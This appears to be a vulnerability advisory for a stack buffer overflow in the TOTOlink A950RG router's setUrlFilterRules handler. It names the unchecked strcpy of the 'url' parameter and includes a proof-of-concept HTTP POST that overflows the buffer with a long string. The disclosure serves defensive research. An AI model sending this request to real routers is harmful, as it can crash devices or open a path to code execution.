


# TARGET

TOTOlink A950RG Router

# BUG TYPE

Buffer Overflow

# Abstract

The TOTOlink A950RG router, firmware version V4.1.2cu.5204_B20210112, contains a buffer overflow vulnerability in the `setUrlFilterRules` interface of `/lib/cste_modules/firewall.so`. The vulnerability occurs because the `url` parameter is not properly validated for length, allowing remote attackers to trigger a buffer overflow, potentially leading to arbitrary code execution or denial of service.

# Details



**Environment:**

* Device: TOTOlink A950RG
* Firmware version: V4.1.2cu.5204_B20210112
* Manufacturer: [https://www.totolink.net/](https://www.totolink.net/)
* Firmware download: [https://totolink.tw/support_view/A950RG](https://totolink.tw/support_view/A950RG)

**Vulnerability Analysis:**

Reverse engineering using IDA Pro shows that the `setUrlFilterRules` function starts at address `0x00007D90`. The user-controlled `url` parameter is copied into a local buffer `v13` via `strcpy` without boundary checks:

```c
strcpy(v13, v9); // v9 is from user input
```

If the length of `url` exceeds the buffer size of `v13`, adjacent memory can be overwritten, including stack variables and the return address. This allows attackers to cause a crash (DoS) or potentially execute arbitrary code.

Attackers can exploit this vulnerability by sending specially crafted API requests or using overly long `url` values in HTTP requests.

# POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 730
Connection: close
Cookie: SESSION_ID=2:1747881282:2

{
  "topicurl":"setting/setUrlFilterRules",
  "url":"222222222xx:xx:xx:xx:xx:xxaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
  "addEffect":"0"
}
```

